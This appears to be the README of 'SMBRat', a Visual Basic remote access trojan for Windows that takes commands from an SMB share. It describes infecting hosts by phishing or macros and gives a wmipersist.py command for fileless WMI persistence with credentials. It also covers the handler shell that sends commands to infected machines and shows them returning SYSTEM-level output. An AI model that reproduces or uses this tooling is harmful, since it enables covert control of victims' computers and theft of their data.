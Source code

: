 # SMBRat
A Windows Remote Administration Tool in Visual Basic


## Ingredients

### Handler

The `handler` needs an SMB Server to work. The `smbserver.py` module from [*Core Security's* `impacket`](https://github.com/coresecurity/impacket) package will do.

Most probably `smbd` would also do the trick, but it hasn't been tested yet.

#### Setting up the SMBServer

A share with name `D$` is needed, to look like a legit Windows host's SMB.

```bash
(impacket) root@Deskjet-4540:/home/unused/Tools/RATs/SMBRat# mkdir Share
(impacket) root@Deskjet-4540:/home/unused/Tools/RATs/SMBRat# smbserver.py -comment "My Share" "D$" Share/
Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### Agent

The `agent` is a *Visual Basic Script* that runs on the infected host and connects to the *SMB Server*. It creates a folder in there named after the host's `hostname` and primary `MAC` address (trying to be *unique* and *informative* at the same time for reporting purposes).
It does **NOT** use a drive letter to *Mount* the Share, just uses `UNC paths` to directly read remote files.
It also injects the `UNC path` into the `%PATH%` variable of its execution environment.

#### Agent's Execution

The `agent` is configured to **run once**. **Statelessly**.
It looks for a file named `exec.dat` in the folder it created in the *SMB Share*
If it finds the file, it **reads its content** and executes it as a command with `cmd.exe /c <command>` like a *semi-interactive shell*.
The command's response is stored in `output.dat` (next to `exec.dat`). 
Then deletes the `exec.dat` file.



## Infection Scheme

A *While loop* can be added to the `agent.vbs`  file's beginning, with a delay statement of multiple seconds (10 secs is ideal), and it will be able to infect windows hosts by *double clicking* / *phishing* / *excel macros* / etc...

Yet, if a Windows host has *RPC* enabled, it is possible to install the *VBS* file as *fileless malware* through `WMI` and the fabulous `impacket` package with a command like:
```bash
(impacket) unused@Deskjet-4540:~/Tools/RATs/SMBRat$ wmipersist.py '<username>:<password>@<hostname/ipaddress>' install -vbs agent.vbs -name smbrat -timer 10
```  

It is also possible to utilize the `WMI` tool by local access to install the `agent.vbs`


## Directory Structure in the *SMB Share*

The Directory shared through SMB (named `Share` in this example) will grow using the below structure:
```
	Share/
	|
	\--Project1/
	|	|
	|	\--<Hostname1>-<MAC_ADDRESS1>/
	|	\--<Hostname2>-<MAC_ADDRESS2>/
	|
	\--Project2/
		|
		\--<Hostname3>-<MAC_ADDRESS3>/
	[...]
```

#### Never create folders manually in the Shared Folder



## Barebone Usage

~~At time of writing, no `Handler` shell is implemented,~~ so usage can be done by just using a command like `watch` to inspect the `output.dat` file:

```bash
$ watch -n0.2 cat Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/output.dat
```
and `echo` to write stuff to the `exec.dat` file:
```bash
$ echo 'whoami /all' > Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/exec.dat
```

Yet, in the near future, a Python CLI will be implememted to automate the above tasks and also contain:


## The `handler.py`

The experimental shell works as follows: 
```bash
$ python handler.py Share/
SMBRat> 
# When a new host gets infected:
[+] Agent "DESKTOP-EG4OE7J" (00:0C:29:2B:9F:AF) just checked in for Project: "projectName"

SMBRat> execall whoami /user

[>] Sending 'whoami /user' to "projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF" ...
		
SMBRat> 
[<] Response from 'projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF': 


USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18

^^^^^^^^^^^^^^^^^^^^ projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF ^^^^^^^^^^^^^^^^^^^^
SMBRat> 
				
```

## Outstanding Pitfalls

### SMBv1 is **Not Encrypted** :

```bash
# tcpdump -i eth0 -A
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

[...]

15:25:06.695502 IP Deskjet-4540.microsoft-ds > 172.16.47.129.3128: Flags [P.], seq 2876:2971, ack 4791, win 2110, length 95 SMB PACKET: SMBreadX (REPLY)

E...,E@.@.V.../.../....8
.&Mi~.6P..>.......[.SMB........................
.@............ .;........... .net localgroup "administrators"

[...]

15:25:06.702916 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 4917:5111, ack 3097, win 2052, length 194 SMB PACKET: SMBtrans2 (REQUEST)

E...E.@......./.../..8..i~..
.'*P....b.......SMB2......................

.F..z.....(...........z.D.........}..........\.p.r.o.j.e.c.t.N.a.m.e.\.D.E.S.K.T.O.P.-.E.G.4.O.E.7.J.-.0.0.:.0.C.:.2.9.:.2.B.:.9.F.:.A.F.\.o.u.t.p.u.t...d.a.t...

[...]

15:25:06.751372 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 6049:6393, ack 3748, win 2050, length 344 SMB PACKET: SMBwrite (REQUEST)

E...E.@....L../.../..8..i~. 
.).P....*.....T.SMB........................
.T....$.......'..$.Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Admin
Administrator
defaultuser0
The command completed successfully.

[...]

```

The traffic (file *contents* and *paths*) are tranfered in plaintext if *SMBv1 Server* is used (e.g `impacket` 's `smbserver.py`).

* An encryption/obfuscation layer would totally solve this one!

### The whole Share is *READ/WRITE* to Everyone:

All Agents can modify files stored in the **Whole Share**. Meaning they can modify the `exec.dat` of other Agents...
An `smbmap` will shed light:
```bash
$ smbmap -H 172.16.47.189
[+] Finding open SMB ports....
[+] User SMB session establishd on 172.16.47.189...
[+] IP: 172.16.47.189:445	Name: Deskjet-4540                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	D$                                                	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\D$\SVNRmxBFAO, plreae remove manually
	IPC$                                              	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\IPC$\SVNRmxBFAO, plreae remove manually
```
#### Pay attention to the lack of `-u` and `-p` parameters of `smbmap`.
This is a *NULL session* (like FTP anonymous login). **EVERYONE can change the SHARE Files** and get *Remote Code Execution* on all infected machines.

* Better fire up some `iptables` here...
